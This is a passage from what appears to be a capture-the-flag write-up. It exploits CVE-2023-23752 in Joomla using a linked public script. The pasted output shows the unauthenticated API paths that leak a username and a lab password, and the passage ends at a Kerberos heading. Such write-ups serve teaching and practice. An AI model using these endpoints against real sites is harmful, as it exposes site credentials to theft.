 While searching for an exploit for that version of Joomla, I found [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) which discusses Improper Access Check. For that CVE I found a [repository](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT) that provides a script to automate the process.

```bash
┏┓┓┏┏┓  ┏┓┏┓┏┓┏┓  ┏┓┏┓━┓┏━┏┓
┃ ┃┃┣ ━━┏┛┃┫┏┛ ┫━━┏┛ ┫ ┃┗┓┏┛
┗┛┗┛┗┛  ┗━┗┛┗━┗┛  ┗━┗┛ ╹┗┛┗━
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://10.129.105.196
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: /api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering username(s) for: http://10.129.105.196
[+] Username: Administrator
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for passwords at path: 
/api/index.php/v1/config/application?public=true
[+] Target is vulnerable for passwords
[+] Gathering password(s) for: http://10.129.105.196
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[+] Password: H0lOgrams4reTakIng0Ver754!
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
```

Even though we have obtained a password, it does not allow us to access Joomla.

## 3. Kerberos analysis
